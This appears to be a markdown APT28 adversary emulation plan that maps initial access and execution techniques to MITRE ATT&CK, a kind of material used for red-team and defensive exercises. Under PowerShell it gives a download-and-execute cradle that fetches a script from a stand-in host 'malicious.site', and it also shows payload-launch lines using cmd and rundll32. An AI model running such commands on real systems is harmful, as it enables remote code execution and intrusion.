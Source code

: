 # APT28 Emulation Plan

## Initial Access (TA0001)

### T1566.001 - Spearphishing Attachment

- Malicious Office documents with embedded macros
- Weaponized RAR archives containing executables
- Example: `invoice.doc` with VBA macro executing PowerShell payload

### T1189 - Drive-by Compromise

- Custom exploit kits targeting government websites
- Reflected XSS attacks redirecting to phishing pages

### T1190 - Exploit Public-Facing Application

- Exploitation of Microsoft Exchange vulnerabilities (CVE-2020-0688, CVE-2020-17144)
- SQL injection attacks against external websites

### T1078 - Valid Accounts

- Brute force/password spraying attacks (300+ attempts/hour in brute force mode)
- Kubernetes cluster for distributed credential attacks
- Default manufacturer passwords on IoT devices (VOIP phones, printers)

### T1669 - Exploit Open Wi-Fi Access Points

- Evil Twin Wi-Fi attacks using Wi-Fi Pineapple
- Interception of credentials via rogue access points

## Execution (TA0002)

### T1059.001 - PowerShell

```powershell
powershell -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/script.ps1')"
```
- `Get-ChildItem` for credential discovery

### T1059.003 - Windows Command Shell

```cmd
cmd.exe /c start /b malware.exe
```
- Batch scripts for payload execution

### T1218.011 - Rundll32

```cmd
rundll32.exe "C:\\Windows\\twain_64.dll",EntryPoint
```
